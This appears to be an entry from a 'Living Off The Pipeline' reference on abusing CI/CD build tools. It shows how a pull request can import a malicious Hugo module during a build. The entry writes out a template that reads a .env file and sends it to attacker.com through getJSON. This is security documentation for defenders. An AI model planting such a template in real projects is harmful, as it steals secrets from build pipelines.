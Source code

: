 ```yaml
---
layout: tool
title: hugo
tags: [cli, config-file, file-read, network-access]
references:
- https://gohugo.io/hugo-modules/
- https://gohugo.io/functions/readfile/
- https://gohugo.io/functions/getjson/
files: [config.toml, config.yaml, config.json]
---
```


## Living Off The Pipeline - hugo

`Hugo` is a popular static site generator. While it is heavily sandboxed to prevent templates from executing shell commands, its powerful module and templating system can be abused to create a "Living Off The Pipeline" (LOTP) gadget for data exfiltration.

### First-Order LOTP Gadget

`hugo` is a **First-Order LOTP Gadget**. It does not provide RCE, but it can be tricked by a malicious module and template into reading local files and sending their contents over the network.

#### Malicious Primitives: Arbitrary File Read + Arbitrary Network Access

The attack vector relies on combining three features:
1.  **Hugo Modules:** A project's configuration file (e.g., `config.toml`) can specify remote modules to be imported. An attacker can add their own malicious module in a pull request.
2.  **`readFile` function:** Hugo's templating language allows reading files from within the project directory.
3.  **`getJSON` function:** This function is intended to fetch and parse remote JSON files, but it can be used to make an arbitrary GET request to any URL.

An attacker can create a malicious module containing a template that uses `readFile` to get the contents of a sensitive file (e.g., a `.env` file) and then uses `getJSON` to send that content to their own server.

### Real-World Attack Scenario

1.  **Attacker's PR:** An attacker submits a pull request containing:
    *   A modified `config.toml` file that imports their malicious module.
        ```toml
        [module]
          [[module.imports]]
            path = "github.com/attacker/malicious-hugo-module"
        ```
    *   The malicious module contains a template (e.g., a shortcode) that will be rendered during the build.
        ```go-template
        <!-- layouts/shortcodes/pwn.html -->
        {{ $secret_file := ".env" }}
        {{ if (fileExists $secret_file) }}
          {{ $secret_content := readFile $secret_file | urlquery }}
          {{ $exfil := getJSON (printf "https://attacker.com/?data=%s" $secret_content) }}
        {{ end }}
        ```

2.  **Vulnerable Workflow:** The pipeline contains a completely standard command to build the Hugo site.
    ```yaml
    - name: Build site
      run: hugo
    ```

3.  **Execution:**
    *   The `hugo` command is executed.
    *   It downloads the attacker's malicious module specified in the config file.
    *   During site generation, Hugo renders the attacker's shortcode.
    *   The `readFile` function reads the `.env` file from the repository root.
    *   The `getJSON` function makes a GET request to the attacker's server, with the URL-encoded contents of the `.env` file in the query string.

This attack is dangerous because the CI/CD workflow file is benign. The malicious payload is hidden within the templating logic of a remote dependency.
